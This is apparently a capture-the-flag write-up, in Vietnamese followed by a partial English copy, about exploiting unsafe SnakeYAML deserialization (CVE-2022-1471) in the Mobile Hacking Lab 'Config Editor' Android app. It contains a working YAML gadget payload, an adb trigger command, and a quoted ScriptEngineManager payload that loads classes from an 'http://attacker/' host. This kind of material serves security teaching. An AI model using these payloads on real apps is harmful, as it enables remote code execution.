Mobile Hacking Lab: Config Editor
Exported VIEW import, unsafe SnakeYAML deserialization, and the app-local gadget that maps a tagged scalar YAML node into Runtime.exec().
Mobile Hacking Lab: Config Editor
Lab này có thể được giải bằng cách nối chuỗi một điểm vào VIEW đã export với unsafe SnakeYAML deserialization.
Ở mức cao, ứng dụng chấp nhận một tài nguyên YAML từ bên ngoài, tải nó xuống, sau đó parse nó bằng SnakeYAML với constructor mặc định permissive. Vì APK cũng chứa một local gadget class nguy hiểm, YAML do attacker kiểm soát có thể được biến thành command execution trực tiếp.
Bài writeup này giải thích cách CVE-2022-1471 dẫn tới root cause chính xác trong ứng dụng này, dữ liệu chạy qua app như thế nào, và vì sao payload riêng của lab này đơn giản hơn nhiều so với payload ScriptEngineManager tổng quát thường được nhắc đến trong các bài viết công khai.
1. Bắt đầu từ CVE-2022-1471
CVE-2022-1471 là lỗ hổng unsafe deserialization kinh điển của SnakeYAML. Bài học quan trọng từ CVE này không nằm ở một magic payload duy nhất, mà nằm ở một mẫu thiết kế nguy hiểm:
- untrusted YAML đi tới
Yaml.load(...) - SnakeYAML chấp nhận Java type tag do attacker kiểm soát
- parser instantiate Java class trong quá trình deserialization
- một class reachable trên classpath có side effect nguy hiểm
- việc tạo object trở thành code execution
Vì vậy khi audit APK này, câu hỏi đúng không phải là “Nó có dùng chính xác payload công khai của CVE hay không?” mà là:
- App có parse attacker-controlled YAML không?
- App có dùng SnakeYAML theo cách không an toàn không?
- Trên classpath của app có gadget phù hợp không?
Trong lab này, cả ba câu trả lời đều là có.
2. Dò tìm bề mặt tấn công
Exported entry point
MainActivity được export và chấp nhận VIEW intent cho YAML từ các nguồn file, http, và https:

Chỉ riêng điều này đã tạo ra một bề mặt delivery cho attacker.
Luồng tải từ xa
App chuyển Uri đầu vào thành URL và tải nó về. Đối với tài nguyên từ xa, nó dùng HttpURLConnection:


App cũng cho phép cleartext traffic:

Điều này giúp việc test trên emulator trở nên đơn giản với http://10.0.2.2:8686/... (host của máy tôi).
3. Nguyên nhân gốc
Nguyên nhân gốc là unsafe deserialization trên attacker-controlled YAML.
Trong MainActivity.loadYaml(), app tạo SnakeYAML bằng new Yaml(dumperOptions) và lập tức gọi yaml.load(inputStream) trên input bên ngoài:

Chi tiết quan trọng ở đây là Yaml(DumperOptions) không tạo ra safe parser. Trong source tree này, nó vẫn tạo default SnakeYAML Constructor:

Vì vậy, mẫu code dễ bị tổn thương là:
Yaml yaml = new Yaml(dumperOptions);
Object deserializedData = yaml.load(inputStream);4. Vì sao SnakeYAML nguy hiểm trong trường hợp này
Tag-controlled class resolution
SnakeYAML cho phép YAML tag đại diện cho tên Java class.
Khi deserialize một object được gắn tag, nó resolve class từ tag đó và nạp nó bằng Class.forName(...):


Nội bộ SnakeYAML dùng namespace tag:yaml.org,2002: cho các tag:


Scalar-node constructor invocation
Scalar node là một giá trị YAML không có cấu trúc lồng nhau, ví dụ như string, number, hoặc boolean.
SnakeYAML model nó thành ScalarNode với NodeId.scalar:



Với tagged scalar node, SnakeYAML sử dụng ConstructScalar và tìm constructor một tham số:


Đây là một sự khớp hoàn hảo với gadget có sẵn trong APK.
5. Gadget riêng của lab này
APK chứa một local gadget class:

Constructor của nó là:
public LegacyCommandUtil(String command) throws IOException {
Runtime.getRuntime().exec(command);
}Điều này có nghĩa là một tagged scalar YAML object có thể map trực tiếp thành:
LegacyCommandUtil(String command)
-> Runtime.exec(command)Đó là lý do exploit riêng của lab này đơn giản hơn nhiều so với các payload công khai tổng quát của CVE.
6. Luồng dữ liệu đầu-cuối
Luồng đầy đủ trong lab này là:
Attacker-controlled URL
-> VIEW intent
-> MainActivity.handleIntent()
-> CopyUtil.copyFileFromUri()
-> HttpURLConnection downloads YAML
-> MainActivity.loadYaml()
-> SnakeYAML Yaml.load()
-> resolve explicit Java tag
-> instantiate LegacyCommandUtil(String)
-> Runtime.exec()
-> RCEĐi từng bước:
1. MainActivity.onCreate() gọi handleIntent().

2. handleIntent() đọc VIEW intent đầu vào và truyền URI sang CopyUtil.copyFileFromUri(data).

3. CopyUtil tải YAML và lưu nó local.


4. Observer gọi loadYaml(uri) trên file vừa tải về.
5. loadYaml() gọi yaml.load(inputStream) và quá trình deserialization bắt đầu.

6. SnakeYAML resolve explicit Java tag và instantiate gadget.


7. Constructor của gadget thực thi command được cung cấp.

7. Vì sao không cần payload ScriptEngineManager tổng quát
Các writeup công khai về CVE-2022-1471 thường dùng các payload như:
!!javax.script.ScriptEngineManager [
!!java.net.URLClassLoader [[
!!java.net.URL ["http://attacker/"]
]]
]Payload đó là một JDK gadget chain tổng quát. Nó dựa vào class loading và service/provider discovery behavior.
Lab này dễ hơn vì chính APK đã chứa một direct gadget:
YAML tag -> LegacyCommandUtil(String) -> exec()Không cần đến indirect JDK gadget.
8. Thiết kế payload cho lab này
Payload kiểm tra parse
Một payload YAML vô hại có thể được dùng để xác minh luồng tải và parse: payload-check.yml
name: test
value: 123
items:
- one
- two
meta:
source: local-host-8686
purpose: verify-download-and-parsePayload thực thi command
Payload đơn giản nhất đã được xác nhận trước đó là bản log-based proof:
payload-rce-log.yml
!!com.mobilehackinglab.configeditor.LegacyCommandUtil "/system/bin/log -t RCE_POC reached"Dạng này phù hợp với lab vì:
- nó dùng đúng app-local gadget thật sự
- nó tránh shell metacharacters và redirection
- nó fit tốt với
Runtime.exec(String) - nó để lại một file artifact có thể kiểm tra trên thiết bị
9. Xác minh thực tế
Luồng khai thác đã được xác minh qua hai giai đoạn.
Giai đoạn 1: Delivery và parsing
payload-check.yml được load qua remote VIEW path và hiển thị đúng trong UI. Điều đó xác nhận:
VIEWintent route hoạt động- emulator có thể truy cập host qua
10.0.2.2:8686 - app tải file thành công
loadYaml()vàyaml.load()đã được gọi
Giai đoạn 2: Command execution
Sau đó, một gadget payload dùng LegacyCommandUtil được load và tạo ra bằng chứng log như sau:
adb shell am start -n com.mobilehackinglab.configeditor/.MainActivity -a android.intent.action.VIEW -d "http://10.0.2.2:8686/payload-rce.yml" -t "application/yaml"Check adb logcat:
04-17 13:36:07.373 566 1803 I ActivityTaskManager: START u0 {act=android.intent.action.VIEW dat=http://10.0.2.2:8686/... typ=application/yaml flg=0x10000000 cmp=com.mobilehackinglab.configeditor/.MainActivity} from uid 0
04-17 13:36:07.385 566 1482 W ActivityTaskManager: Tried to set launchTime (0) < mLastActivityLaunchTime (16823541)
04-17 13:36:07.473 369 409 D goldfish-address-space: claimShared: Ask to claim region [0x3f3438000 0x3f3e1c000]
04-17 13:36:07.483 369 409 D goldfish-address-space: claimShared: Ask to claim region [0x3f73ec000 0x3f7dd0000]
04-17 13:36:07.490 369 409 D goldfish-address-space: claimShared: Ask to claim region [0x3f54d9000 0x3f5ebd000]
04-17 13:36:07.543 566 592 I ActivityTaskManager: Displayed com.mobilehackinglab.configeditor/.MainActivity: +169ms
04-17 13:36:07.562 8655 8674 D EGL_emulation: app_time_stats: avg=3253.92ms min=1.78ms max=35050.13ms count=11
04-17 13:36:07.580 1344 1344 I GoogleInputMethodService: GoogleInputMethodService.onFinishInput():3420
04-17 13:36:07.581 1344 1344 I GoogleInputMethodService: GoogleInputMethodService.onStartInput():2002
04-17 13:36:07.582 1344 1344 I DeviceUnlockedTag: DeviceUnlockedTag.notifyDeviceLockStatusChanged():31 Notify device unlocked.
04-17 13:36:07.984 566 1803 D AutofillSession: Set the response has expired.
04-17 13:36:08.399 8960 8960 I RCE_POC : reached
Điều đó xác nhận:
- SnakeYAML đã chấp nhận explicit Java tag
- tagged scalar node đã được map thành
LegacyCommandUtil(String) Runtime.getRuntime().exec(...)đã được gọi thành công
10. Kết luận
Nguyên nhân gốc của lab này là unsafe SnakeYAML deserialization trên attacker-controlled YAML.
Đường khai thác rất thẳng vì APK chứa một local gadget lý tưởng. Attacker chỉ cần đưa một tagged scalar YAML object tới yaml.load(...), và SnakeYAML sẽ làm phần còn lại:
Untrusted YAML
-> explicit Java tag
-> class resolution
-> constructor invocation
-> Runtime.exec()Điều quan trọng nhất cần rút ra là phần nguy hiểm không chỉ nằm ở việc load YAML từ một nguồn bên ngoài. Vấn đề thật sự là việc cho phép untrusted YAML điều khiển Java type resolution trong quá trình deserialization.
Mobile Hacking Lab: Config Editor
This lab can be solved by chaining an exported VIEW entry point with unsafe SnakeYAML deserialization.
At a high level, the application accepts an external YAML resource, downloads it, and then parses it with SnakeYAML using a permissive default constructor. Because the APK also contains a dangerous local gadget class, attacker-controlled YAML can be turned into direct command execution.
This writeup explains how CVE-2022-1471 leads us to the exact root cause in this application, how the data flows through the app, and why the lab-specific payload is much simpler than the generic ScriptEngineManager payload often shown in public writeups.
1. Starting From CVE-2022-1471
CVE-2022-1471 is the canonical SnakeYAML unsafe deserialization issue. The key lesson from that CVE is not a single magic payload, but a dangerous design pattern:
- untrusted YAML reaches
Yaml.load(...) - SnakeYAML accepts attacker-controlled Java type tags
- the parser instantiates Java classes during deserialization
- a reachable class on the classpath has dangerous side effects
- object creation becomes code execution
So when auditing this APK, the right question is not “Does it use the exact public CVE payload?” but:
- Does the app parse attacker-controlled YAML?
- Does it use unsafe SnakeYAML construction?
- Is there any suitable gadget on the app classpath?
In this lab, the answer to all three is yes.
2. Attack Surface Recon
Exported entry point
MainActivity is exported and accepts VIEW intents for YAML from file, http, and https sources:
This already gives the attacker a delivery surface.
Remote fetch path
The app converts the incoming Uri into a URL and downloads it. For remote resources it uses HttpURLConnection:
The app also permits cleartext traffic:
That makes emulator testing straightforward via http://10.0.2.2:8686/... (My devices host).
3. Root Cause
The root cause is unsafe deserialization of attacker-controlled YAML.
In MainActivity.loadYaml(), the app creates SnakeYAML with new Yaml(dumperOptions) and immediately calls yaml.load(inputStream) on external input:
The important detail is that Yaml(DumperOptions) does not create a safe parser. In this source tree it still creates a default SnakeYAML Constructor:
So the vulnerable pattern is:
Yaml yaml = new Yaml(dumperOptions);
Object deserializedData = yaml.load(inputStream);4. Why SnakeYAML Is Dangerous Here
Tag-controlled class resolution
SnakeYAML allows YAML tags to represent Java class names.
When deserializing a tagged object, it resolves the class from the tag and loads it with Class.forName(...):
SnakeYAML tags use the tag:yaml.org,2002: namespace internally:
Scalar-node constructor invocation
A scalar node is a YAML value with no nested structure, such as a string, number, or boolean.
SnakeYAML models this as ScalarNode with NodeId.scalar:
For tagged scalar nodes, SnakeYAML uses ConstructScalar and looks for a one-argument constructor:
This is a perfect match for the gadget in the APK.
5. The Lab-Specific Gadget
The APK contains a local gadget class:
Its constructor is:
public LegacyCommandUtil(String command) throws IOException {
Runtime.getRuntime().exec(command);
}This means a tagged scalar YAML object can directly map to:
LegacyCommandUtil(String command)
-> Runtime.exec(command)That is why the lab-specific exploit is much simpler than the generic public CVE payloads.
6. End-to-End Data Flow
The full flow in this lab is:
Attacker-controlled URL
-> VIEW intent
-> MainActivity.handleIntent()
-> CopyUtil.copyFileFromUri()
-> HttpURLConnection downloads YAML
-> MainActivity.loadYaml()
-> SnakeYAML Yaml.load()
-> resolve explicit Java tag
-> instantiate LegacyCommandUtil(String)
-> Runtime.exec()
-> RCEStep by step:
1. MainActivity.onCreate() calls handleIntent().
2. handleIntent() reads the incoming VIEW intent and passes the URI to CopyUtil.copyFileFromUri(data).
3. CopyUtil downloads the YAML and stores it locally.
4. The observer calls loadYaml(uri) on the downloaded file.
5. loadYaml() calls yaml.load(inputStream) and deserialization begins.
